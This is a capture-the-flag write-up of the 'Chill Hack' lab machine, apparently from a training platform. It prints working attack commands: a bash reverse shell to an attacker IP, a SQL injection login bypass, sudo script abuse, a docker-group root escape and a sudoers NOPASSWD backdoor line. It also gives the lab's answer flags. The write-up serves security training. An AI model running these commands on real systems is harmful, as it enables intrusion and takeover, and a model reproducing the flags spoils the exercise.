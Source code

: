
# Chill Hack

* IP = 10.10.175.103

## Enumerating And Scanning:

* Nmap scan to discover open ports:
`nmap -sC -sV -vv $IP`
* **Nmap Scan Results:**
```bash
PORT   STATE SERVICE REASON  VERSION
21/tcp open  ftp     syn-ack vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-rw-r--r--    1 1001     1001           90 Oct 03  2020 note.txt
| ftp-syst:
|   STAT:
| FTP server status:
|      Connected to ::ffff:10.4.50.128
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 4
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp open  ssh     syn-ack OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 09:f9:5d:b9:18:d0:b2:3a:82:2d:6e:76:8c:c2:01:44 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDcxgJ3GDCJNTr2pG/lKpGexQ+zhCKUcUL0hjhsy6TLZsUE89P0ZmOoQrLQojvJD0RpfkUkDfd7ut4//Q0Gqzhbiak3AIOqEHVBIVcoINja1TIVq2v3mB6K2f+sZZXgYcpSQriwN+mKgIfrKYyoG7iLWZs92jsUEZVj7sHteOq9UNnyRN4+4FvDhI/8QoOQ19IMszrbpxQV3GQK44xyb9Fhf/Enzz6cSC4D9DHx+/Y1Ky+AFf0A9EIHk+FhU0nuxBdA3ceSTyu8ohV/ltE2SalQXROO70LMoCd5CQDx4o1JGYzny2SHWdKsOUUAkxkEIeEVXqa2pehJwqs0IEuC04sv
|   256 1b:cf:3a:49:8b:1b:20:b0:2c:6a:a5:51:a8:8f:1e:62 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBFetPKgbta+pfgqdGTnzyD76mw/9vbSq3DqgpxPVGYlTKc5MI9PmPtkZ8SmvNvtoOp0uzqsfe71S47TXIIiQNxQ=
|   256 30:05:cc:52:c6:6f:65:04:86:0f:72:41:c8:a4:39:cf (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIKHq62Lw0h1xzNV41zO3BsfpOiBI3uy0XHtt6TOMHBhZ
80/tcp open  http    syn-ack Apache httpd 2.4.29 ((Ubuntu))
|_http-favicon: Unknown favicon MD5: 7EEEA719D1DF55D478C68D9886707F17
| http-methods:
|_  Supported Methods: GET POST OPTIONS HEAD
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Game Info
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

* FTP Anonymous login is permitted i.e. Login to FTP server with `anonymous` username and no password is allowed.
* FTP has only one file:`note.txt`<br>
![Screenshot](./assets/2.png)<br>

* Contents of `note.txt`:
```
Anurodh told me that there is some filtering on strings being put in the command -- Apaar
```
* `anurodh` and `apaar` usernames are noted for later use.
* The website view of main page:<br>
![Screenshot](./assets/1.png)

* Used `gobuster` to scan to find any other hidden directories on the website:
* **Gobuster Scan Results:**
```
=====================================================
/.hta (Status: 403)
/.htaccess (Status: 403)
/.htpasswd (Status: 403)
/css (Status: 301)
/fonts (Status: 301)
/images (Status: 301)
/index.html (Status: 200)
/js (Status: 301)
/secret (Status: 301)
/server-status (Status: 403)
=====================================================
2022/07/30 19:12:47 Finished
=====================================================
```
* `/secret` directory of the website:<br>
![Screenshot](./assets/3.png)
* Basic commands like `ls` or `cat` can't be executed:<br>
![Screenshot](./assets/4.png)
* But, `id` command was executed successfully:<br>
![Screenshot](./assets/5.png)
* Searched for some bash reverse shell payloads from <a href="https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet">Pentestmonkey</a>.
* But `bash -i >& /dev/tcp/10.4.50.128/7777 0>&1` can't be used.<br>
![Screenshot](./assets/4.png)
* Using `/bin/bash` instead of `bash` works.

## Exploitation/Gaining Access:

* Finally this payload worked properly:`/bin/bash -c '/bin/bash -i >& /dev/tcp/10.4.50.128/7777 0>&1'`, with a netcat listener:`nc -lnvp 7777`<br>
![Screenshot](./assets/6.png)
* Next, some basic enumeration in the home directory:<br>
![Screenshot](./assets/7.png)
* Sudo commands that can be run by `www-data` user:<br>
![Screenshot](./assets/8.png)
* Hence the following command can be used to run `.helpline.sh` as `apaar` user:`sudo -u apaar /home/apaar/.helpline.sh`. Now, since the above code directly passes the given input and runs the command without parsing, giving `/bin/bash` as input will spawn a shell with `apaar` user privileges.
![Screenshot](./assets/9.png)<br>
* The file `local.txt` in `apaar` user's home directory is the required user flag.<br>
![Screenshot](./assets/10.png)

## Post Exploitation

* First enumerate the running processes with `ps aux` and the running webservices/network services with:`netstat -anlp | grep LISTEN`:<br>
![Screenshot](./assets/11.png)
* The service running on port `9001` at localhost seemd strange, hence it was port forwarded via SSH.
* Generated a new ssh key-pair with `ssh-keygen` on local machine:<br>
![Screenshot](./assets/12.png)
* Copied the `id_rsa.pub` or the public key into the authorized_keys file inside `.ssh` directory of `/home/apaar`.
* Now SSH 'ed into the server with:`ssh -i id_rsa apaar@10.10.175.103 -L 9001:127.0.0.1:9001` using forwarded port.
* `-L` flag signifies the following:
```
Specifies that connections to the given TCP port or Unix socket on the local (client) host are to be forwarded to the given host and port, or Unix socket, on the remote side.
```
* In local machine, the process is found in the same port:<br>
![Screenshot](./assets/13.png)<br>
* Visited the running service on browser with `localhost:9001` which brings here:<br>
![Screenshot](./assets/14.png)
* This login page is vulnerable to basic SQL injection, hence logged in with:`admin' or 1=1 --`.
* Which brings here:<br>
![Screenshot](./assets/15.png)
* Next, downloaded the image file:<br>
![Screenshot](./downloads/download.jpg)<br>
* Using `steghide extract -sf download.jpg` a zip file can be extracted, which is infact password protected. Cracked the zipfile password with:`fcrackzip -D -u -p rockyou.txt backup.zip`, and the password was found as:`pass1word`.
* Significance of the flags:
```
-D -> dictionary style password search
-u -> decompresses the file while trying a password, evades out false positives
-p -> specify the password file
```
* Unzipping the zipfile reveals a source code written in php, which has a *base64* encoded password of `anurodh`:<br>
![Screenshot](./assets/16.png)
* Which can be decoded as:`!d0ntKn0wmYp@ssw0rd`.

## Privilege Escalation

* SSH into the server as `anurodh` and password as:`!d0ntKn0wmYp@ssw0rd`.
* The most initial enumeration reveals `anurodh` is in the `docker` group, which means anything from the filesystem can be mounted into the docker containers and run as root.
```
anurodh@ubuntu:~$ id
uid=1002(anurodh) gid=1002(anurodh) groups=1002(anurodh),999(docker)
```
* Checked if any docker images are already present with:`docker images`. There is an `alpine` image, which can be used.
* Easiest way to get the root flag is by mounting the whole filesystem into a docker container and navigate inside the `root` home directory by executing:`docker run --rm -it --privileged -v /:/mnt alpine`:<br>
![Screenshot](./assets/17.png)<br>
* The arguments signifies the following:
```
run -> runs the container
--rm -> removes previously present containers using same image
-it -> interactive shell, to get a shell inside the container
--privileged -> keep the privileges
-v -> specify the volume to be mounted, here / is mounted to /mnt
```
* The file named `proof.txt` inside the `/mnt/root` directory will contain the root flag.:<br>
![Screenshot](./assets/18.png)
* Another way of actually escalating privileges would be by modifying the `/etc/sudoers` file by adding the line:

```yaml
anurodh ALL=(ALL) NOPASSWD: ALL
```
* So that anyone can become root without authentication. To try this, exit out of the container and change privileges to root with: `sudo su`:<br>
![Screenshot](./assets/19.png)


## Questions/Tasks:

1. User Flag:

**Ans-{USER-FLAG: e8vpd3323cfvlp0qpxxx9qtr5iq37oww}**

2. Root Flag:

**Ans-{ROOT-FLAG: w18gfpn9xehsgd3tovhk0hby4gdp89bg}**
